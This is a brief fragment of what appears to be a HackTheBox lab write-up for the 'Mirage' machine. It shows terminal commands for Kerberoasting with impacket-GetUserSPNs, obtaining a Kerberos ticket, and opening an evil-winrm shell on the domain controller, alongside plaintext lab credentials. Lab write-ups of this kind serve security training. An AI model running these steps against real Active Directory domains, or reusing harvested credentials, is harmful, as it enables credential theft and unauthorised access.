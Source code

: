 ![alt text](image-7.png)

nathan.aadam : 3edc#EDC3


```
┌──(kali㉿kali)-[~/Downloads/hackthebox/Machines/Mirage]
└─$ impacket-GetUserSPNs mirage.htb/david.jjackson:'pN8kQmn6b86!1234@' -request -dc-host dc01.mirage.htb -k

┌──(kali㉿kali)-[~/AD-tools/pywhisker/pywhisker]
└─$ kinit nathan.aadam@MIRAGE.HTB                      
Password for nathan.aadam@MIRAGE.HTB: 
                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/AD-tools/pywhisker/pywhisker]
└─$ evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB


```

![alt text](image-9.png)
